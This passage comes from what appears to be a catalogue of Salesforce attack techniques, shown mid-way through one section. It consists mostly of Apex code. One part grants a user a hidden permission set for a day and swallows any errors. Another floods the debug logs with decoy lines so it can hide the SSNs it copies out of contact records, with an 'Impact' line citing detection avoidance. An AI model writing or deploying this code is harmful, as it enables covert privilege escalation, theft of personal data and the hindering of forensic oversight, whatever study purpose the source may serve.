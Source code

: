 ```apex
                // Make subtle privilege changes
                try {
                    // Assign temporary permission set
                    PermissionSetAssignment psa = new PermissionSetAssignment(
                        PermissionSetId = 'HIDDEN_PERMISSION_SET_ID',
                        AssigneeId = u.Id,
                        ExpirationDate = Date.today().addDays(1)  // Temporary assignment
                    );
                    insert psa;
                } catch (Exception e) {
                    // Fail silently
                }
            }
        }
        
        public void finish(Database.BatchableContext bc) {
            // Clean up after batch completion
        }
    }
}
```

**Debug Log Pollution**:
```apex
public class LogPollution {
    public static void polluteLogs() {
        // Generate high volume of legitimate-looking debug logs
        for (Integer i = 0; i < 1000; i++) {
            System.debug('Processing record batch: ' + i);
            System.debug('Validation check passed for item: ' + i);
            System.debug('Business rule applied successfully: ' + i);
        }
        
        // Hide malicious activity within noise
        List<Contact> contacts = [SELECT Id, Name, SSN__c FROM Contact LIMIT 100];
        System.debug('Processing contact records: ' + contacts.size());
        
        // Actual malicious activity disguised as routine processing
        for (Contact c : contacts) {
            if (c.SSN__c != null) {
                // Exfiltrate data disguised as routine logging
                System.debug('Contact processed: ID=' + c.Id + ' Data=' + c.SSN__c);
            }
        }
    }
}
```

**Impact**: Reduced forensic evidence, investigation hindrance, detection avoidance.

### 2. Legitimate Tool Abuse
